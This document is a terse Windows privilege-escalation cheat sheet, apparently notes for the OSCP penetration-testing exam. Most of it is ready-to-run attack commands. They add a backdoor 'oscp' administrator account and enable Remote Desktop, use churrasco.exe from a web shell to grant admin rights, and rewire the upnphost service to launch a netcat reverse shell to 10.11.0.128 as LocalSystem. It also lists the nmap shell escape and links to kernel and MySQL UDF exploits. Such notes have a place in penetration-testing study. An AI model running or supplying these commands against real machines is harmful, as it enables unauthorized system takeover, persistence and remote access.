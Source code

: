 Windows

Windows add new administrator

net user /add oscp attacker

net localgroup administrators oscp/add

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f



Authority/network service (asp.net shell)

Upload /usr/share/sqlninja/apps/churrasco.exe

churrasco -d "net user /add oscp oscp "

churrasco -d "net localgroup administrators oscp /add"

churrasco -d "NET LOCALGROUP "Remote Desktop Users" oscp/ADD"



Windows XP SP1 and earlier

sc config upnphost binpath= "C:\Inetpub\nc.exe -nv 10.11.0.128 5555 -e C:\Windows\system32\cmd.exe"

sc config upnphost obj= ".\LocalSystem" password= ""

sc config upnphost depend= ""

sc qc upnphost

http://www.fuzzysecurity.com/tutorials/16.html





check application:

wmic_info.bat (http://www.fuzzysecurity.com/scripts/13.html)

nmap: sudo nmap –interactive --> !sh

mysql: https://github.com/amonsec/exploit/blob/master/linux/privs/MysqlUDF/mysql_udf_exploit.sh



MS16032 --> check optimum write up htb

Exploit suggester: https://github.com/SecWiki/windows-kernel-exploits/tree/master/win-exp-suggester

https://github.com/amonsec/exploit/tree/master/windows/privs

checklist: https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md



Windows version of GTFObin

https://lolbas-project.github.io/#